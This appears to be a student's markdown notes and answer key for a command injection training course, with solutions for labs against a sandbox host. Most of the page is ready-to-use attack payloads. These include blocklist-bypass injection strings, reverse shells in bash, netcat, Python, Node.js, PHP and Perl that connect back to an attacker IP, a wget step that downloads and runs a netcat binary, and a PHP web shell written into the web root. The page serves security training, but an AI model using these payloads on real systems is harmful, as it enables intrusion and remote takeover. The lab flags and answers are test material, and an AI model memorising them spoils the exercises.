





# **Command Injection**

Reverse Shell Generator: https://www.revshells.com/

### **Discovery of Command Injection**

#### **Labs**
#### **Lab 1.** Use the knowledge gathered in this Section to execute the cat command on /var/tmp/exercise_chaining_flag.txt file in the command injection Sandbox at the http://ci-sandbox:80/nodejs/index.js?ip=127.0.0.1 endpoint.

Answer - OS{this-is-the-answer-required}

Payload:
```
ip=127.0.0.1|cat /var/tmp/exercise_chaining_flag.txt
```


### **Typical Input Sanitization - Blocklisted Strings Bypass**

#### **Labs**
#### **Lab 1.** If the base64 binary is not present on the target machine, what is an alternative binary that we might be able to use for our encoding and decoding purposes?

Answer - openssl

Payload:
```
ip=127.0.0.1|cat /var/tmp/exercise_chaining_flag.txt
```


#### **Lab 2.** There is an additional endpoint at http://ci-sandbox:80/php/blocklisted_exercise.php where we have additionally blocked the ";", "|", and "&" characters. Perhaps there is still a way (or multiple) to achieve code execution. Attempt to bypass this sanitization and achieve code execution.

Answer - OS{blocklisted_exercise_flag}

- create the following wordlist as command_injection_custom.txt.
```
bogus
;id
|id
`id`
i$()d
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```

- Test by using Wfuzz by providing above wordlist.
```
wfuzz -c -z file,//home/amrityam/kali/offsec/command_injection_custom.txt --hc 404 http://192.168.152.101:80/php/blocklisted_exercise.php?ip=127.0.0.1FUZZ
```


- Palyloads such as $(id) looks interesting due to its chars size.

- Apply $(id) payload to retrieve the flag.
```
http://192.168.152.101/php/blocklisted_exercise.php?ip=127.0.0.1$(id)
```



### **Blind OS Command Injection Bypass**

#### **Extra Mile**
#### **Lab 1.** Perform command injection on the http://ci-sandbox:80/php/blind_exercise.php?ip=127.0.0.1 endpoint. Retrieve the flag in the web root.

Answer - OS{blind_flag_exercise_webroot}

- Set up Netcat listener on port 9090.
```
nc -nvlp 9090
```

- Obtain the reverse shell using PHP.

```
http://192.168.152.101/php/blind_exercise.php?ip=127.0.0.1;php -r "system(\"bash -c 'bash -i >& /dev/tcp/192.168.45.245/9090 0>&1'\");"
```

- A bit of URL-encoding and escaping inside double-quote characters, hit the endpoint.
```
curl "http://192.168.152.101/php/blind_exercise.php?ip=127.0.0.1;php%20-r%20%22system(%5C%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.245%2F9090%200%3E%261%27%5C%22)%3B%22"
```
- Now we have received a reverse shell as www-data.


- Read the flag now.
```
cat blind_exercise.php
```


### **Enumeration and Exploitation**

#### **Obtaining a Shell - Netcat**
#### **Lab 1.** Use the shell we received above with Netcat to retrieve the proof flag located in the /root/ directory.

Answer - OS{CI_Netcat_Flag}

- Set up Netcat listener on port 9090.
```
nc -nvlp 9090
```


- Create a reverse shell using netcat.
```
/bin/nc -nv 192.168.45.245 9090 -e /bin/bash
```
```
http://192.168.152.101/php/blind_exercise.php?ip=127.0.0.1;php -r "system(\"bash -c 'bash -i >& /dev/tcp/192.168.45.245/9090 0>&1'\");"
```

- Call the endpoint using browser or using curl. For curl you need to url encode the space to %20.
```
curl "http://192.168.152.101/nodejs/index.js?ip=127.0.0.1|/bin/nc%20-nv%20192.168.45.245%209090%20-e%20/bin/bash"
```


- Now we have received a reverse shell for root, Read the flag now.




#### **Obtaining a Shell - Python**
#### **Lab 1.** Use the shell we received above with Netcat to retrieve the proof flag located in the /root/ directory.

Answer - s.connect(("192.168.49.51",9090))

Payload:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.51",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now enter below in browser url.
```
http://192.168.152.101/php/index.php?ip=127.0.0.1;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.245",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Full Request:
```
http://ci-sandbox/php/index.php?ip=127.0.0.1;python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.49.51%22,9090));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```


#### **Obtaining a Shell - Node.js**
#### **Lab 1.** In the above Node.js Reverse Shell Payload - we chain together three commands to receive a reverse shell. Which of these commands is responsible for launching the malicious payload as a server?

Answer - node /var/tmp/offsec.js

Payload:
```
echo "require('child_process').exec('nc -nv 192.168.45.245 9090 -e /bin/bash')" > /var/tmp/offsec.js ; node /var/tmp/offsec.js
```

- URL encoded payload.
```
echo%20%22require(%27child_process%27).exec(%27nc%20-nv%20192.168.45.245%209090%20-e%20%2Fbin%2Fbash%27)%22%20%3E%20%2Fvar%2Ftmp%2Foffsec.js%20%3B%20node%20%2Fvar%2Ftmp%2Foffsec.js
```

- Final Payload
```
http://192.168.152.101/nodejs/index.js?ip=127.0.0.1|echo%20%22require(%27child_process%27).exec(%27nc%20-nv%20192.168.45.245%209090%20-e%20%2Fbin%2Fbash%27)%22%20%3E%20%2Fvar%2Ftmp%2Foffsec.js%20%3B%20node%20%2Fvar%2Ftmp%2Foffsec.js
```

#### **Obtaining a Shell - PHP**
#### **Lab 1.** Retrieve a shell with PHP at the http://ci-sandbox:80/php/shell_exercise.php endpoint by using one of the many methods discussed in this Section. When done, there should be a flag placed in the "opt" directory.

Answer - OS{shell_php_flag}

Payload:

```
php -r "system(\"bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'\");"
```

- URL encoded.
```
php%20-r%20%22system(%5C%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.245%2F9090%200%3E%261%27%5C%22)%3B%22
```


- Final Payload.
```
curl "http://192.168.152.101/php/shell_exercise.php?ip=127.0.0.1;php%20-r%20%22system(%5C%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.245%2F9090%200%3E%261%27%5C%22)%3B%22"
```

or open it in browser.

```
http://192.168.152.101/php/shell_exercise.php?ip=127.0.0.1;php%20-r%20%22system(%5C%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.245%2F9090%200%3E%261%27%5C%22)%3B%22
```



#### **Obtaining a Shell - Perl**
#### **Lab 1.** Which line of the reverse shell payload code we discussed above is responsible for processing standard output?

Answer - open(STDOUT,">&S");

Payload:
```
perl -e 'use Socket;$i="192.168.45.245";$p=9090;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- URL encoded payload.
```
http://ci-sandbox/nodejs/index.js?ip=127.0.0.1|perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.45.245%22%3B%24p%3D9090%3Bsocket(S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname(%22tcp%22))%3Bif(connect(S%2Csockaddr_in(%24p%2Cinet_aton(%24i))))%7Bopen(STDIN%2C%22%3E%26S%22)%3Bopen(STDOUT%2C%22%3E%26S%22)%3Bopen(STDERR%2C%22%3E%26S%22)%3Bexec(%22%2Fbin%2Fsh%20-i%22)%3B%7D%3B%27
```


#### **File Transfer**
#### **Lab 1.** Transfer the Netcat binary from the Kali VM, make it executable, and execute it using a binary other than wget. Perform command injection on this endpoint: http://ci-sandbox:80/php/file_transfer_exercise.php?ip=127.0.0.1. A flag will be returned if any such file transfer capabilities are used other than wget.

Answer - OS{ci_file_transfer_flag}

- The Netcat binary is located at /bin/nc. Let's copy it to our local web root with 
cp.
```
sudo cp /bin/nc /var/www/html/
```

- Start Apache2.
```
sudo service apache2 start
```

- Build our payload.
```
wget http://192.168.45.245:80/nc -O /var/tmp/nc ; chmod 755 /var/tmp/nc ; /var/tmp/nc -nv http://192.168.45.245 9090 -e /bin/bash
```

- URL encode the payload.
```
wget%20http://192.168.45.245:80/nc%20-O%20/var/tmp/nc%20;%20chmod%20755%20/var/tmp/nc%20;%20/var/tmp/nc%20-nv%20192.168.45.245%209090%20-e%20/bin/bash
```

- Set up our Netcat listener.
```
nc -nlvp 9090
```


#### **Writing a Web Shell**
#### **Lab 1.** What are the three world writable directories (permissions of 777 or rwx) with which we can write to, execute from, and read from in Linux Operating Systems? It would be useful to know these directories in the event that if we ever have the ability within a web application to write out to the file system. For the sake of this exercise, we can safley ignore the target machine's /dev/mqueue/, /var/log/apache2/, /run/lock/, /run/lock/apache2/, and /run/apache2 directories.      Please provide your answer comma-separated without spaces. For Example: /dir1/,/dir2/,/dir3/

Answer - /tmp,/var/tmp,/dev/shm

- Try to create our web shell in the web root of the target (/var/www/html/).     
```
echo+"<pre><?php+passthru(\$_GET['cmd']);+?></pre>"+>+/var/www/html/webshell.php
```
- Full endpoint is as follows.
```
http://ci-sandbox:80/php/index.php?ip=127.0.0.1;echo+%22%3Cpre%3E%3C?php+passthru(\$_GET[%27cmd%27]);+?%3E%3C/pre%3E%22+%3E+/var/www/html/webshell.php
```

- Now validate that our web shell was created successfully.     



